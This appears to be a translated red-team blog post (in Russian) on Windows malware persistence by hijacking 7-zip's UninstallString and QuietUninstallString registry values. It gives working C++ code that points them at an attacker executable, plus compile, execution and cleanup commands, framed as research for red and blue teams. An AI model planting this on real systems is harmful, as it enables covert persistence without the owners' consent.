\newpage
\subsection{79. разработка вредоносного ПО: закрепление (persistence) - часть 13. Захват логики удаления приложения. Простой пример на C++.}

﷽

{width="80%"}    

Этот пост является результатом моего собственного исследования одного из интересных трюков закрепления вредоносного ПО: через захват файла удаления целевого приложения.     

### процесс удаления

Когда вы устанавливаете программу в системе Windows, она обычно указывает на свой собственный деинсталлятор. Они находятся в следующих ключах реестра:    

`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\<имя приложения>`    

и  

`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\QuietUninstallString\<имя приложения>`     

Так в чем же трюк? Нет никаких проблем с их заменой на команды, которые могут запустить любую другую программу. Когда пользователь выполняет деинсталлятор, выполняется команда, выбранная атакующим. Опять же, хорошая новость заключается в том, что для изменения этих элементов требуются привилегии, так как они находятся под ключом `HKLM`.     

### практический пример

Рассмотрим практический пример. Во-первых, выберем целевое приложение. Я выбрал `7-zip x64`:    

{width="80%"}    

{width="80%"}    

{width="80%"}    

Затем проверим значения ключей реестра на корректность:    

```powershell
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\7-zip" /s
```

{width="80%"}    

Также я подготовил свое вредоносное приложение. Как обычно, это `meow-meow` "вредоносное ПО" :)    

{width="80%"}    

Затем я создаю программу, которая выполняет мою логику для закрепления (`pers.cpp`):    


```cpp
/*
pers.cpp
windows persistence via
hijacking uninstall app
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/04/malware-pers-13.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // target app
  const char* app = 
  "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Uninstall\\7-zip";

  // evil app
  const char* exe = 
  "C:\\Users\\User\\Documents\\malware\\2022-10-04-malware-pers-13\\hack.exe";

  // app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)app, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update registry key value
    // reg add 
    //"HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Uninstall\
    // 7-zip" /v "UninstallString" /t REG_SZ /d "...\hack.exe" /f
    RegSetValueEx(hkey, (LPCSTR)"UninstallString", 0, REG_SZ, (unsigned char*)
    exe, strlen(exe));
    RegSetValueEx(hkey, (LPCSTR)"QuietUninstallString", 0, REG_SZ, 
    (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Как вы можете видеть, логика проста, мы просто обновляем целевые значения ключей в реестре.    

### демонстрация

Давайте посмотрим, как все работает на практике. Скомпилируем вредоносное ПО и скрипт закрепления:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

И запускаем на машине жертвы - в моем случае `Windows 10 x64`:    

```powershell
.\pers.exe
```

{width="80%"}    

Наконец, после перезагрузки системы попробовал удалить `7-zip`:    

{width="80%"}    

{width="80%"}    

{width="80%"}    

{width="80%"}    

Затем я посмотрел свойства `hack.exe` в Process Hacker 2:    

{width="80%"}    

Как можно видеть, родительский процесс - `SystemSettings.exe`, который появляется при открытии настроек Windows. В нашем случае это "Добавление/Удаление программ". Идеально! =^..^=    

Есть небольшая загвоздка. Когда я попытался обновить ключ с путем `Z:\2022-10-04-malware-pers-13\hack.exe`, я получил ошибку:    

{width="80%"}    

Возможно, можно использовать только пути внутри диска `C:\`.    

После завершения экспериментов очистка:    

```powershell
reg add \
"HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Uninstall\7-zip" \
/v "UninstallString" /t REG_SZ /d "C:\\Program Files\\7-zip\\Uninstall.exe" /f
```

{width="80%"}    

### заключение

Конечно, возможно, этот трюк не так хорош для закрепления, так как он требует разрешений и участия пользователя-жертвы. Но почему бы и нет?    

Есть еще один трюк, связанный с установкой и удалением программ для закрепления, о нем я напишу в одном из будущих постов. Я все еще исследую эту возможность для red team.    

Надеюсь, этот пост повысит осведомленность синих команд об этой интересной технике и добавит оружие в арсенал красных команд.

[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)      
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-10-04-malware-pers-13)     
